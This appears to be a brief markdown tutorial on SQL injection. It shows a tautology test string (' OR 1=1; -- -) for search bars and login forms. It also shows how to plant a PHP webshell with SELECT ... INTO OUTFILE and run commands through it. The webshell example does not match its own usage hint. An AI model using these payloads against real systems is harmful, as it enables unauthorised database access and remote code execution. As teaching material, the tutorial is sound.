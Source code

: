 # SQL Injection

This is one of the most common types of vulnerabilities that you can find on a web application. You don't need to use any tools for this, only an understanding of whatever type of database is on the backend. Examples here use MySQL, but the same principles apply to any query language.

## Testing For Vulnerabilities

You can check to see if an application is vulnerable to SQL injection using just about anything that takes user input, e.g. a login page or a search bar.

On the backend, an unsanitized query would look something like `SELECT address FROM users WHERE first_name='" + "John" "' AND last_name='" + "Deere" + "';"`.

You can check if queries are sanitized by submitting something like `' OR 1=1; -- -` into the search bar. In this example, you would get `address` from all users because the query would always produce a `true` result, thanks to `1=1`. `; -- -` terminates and comments out the rest of the query (the last `-` at the end is just to show there's a space after the other two).

Alternatively, attempting to tamper with the query could produce a syntax error on the screen, which tells you that you can directly interact with the database.

## Webshells

The following bit of PHP can let you establish a webshell with the server's machine.
`<?php system('<command>'); ?>`

You just have to use `into outfile` to save it into a .php file.

E.g. `SELECT 1, 2, 3, "<?php system('pwd'); ?>" INTO OUTFILE '/var/etc/shell.php';`
You could then browse to /shell.php?0=id to see the output.
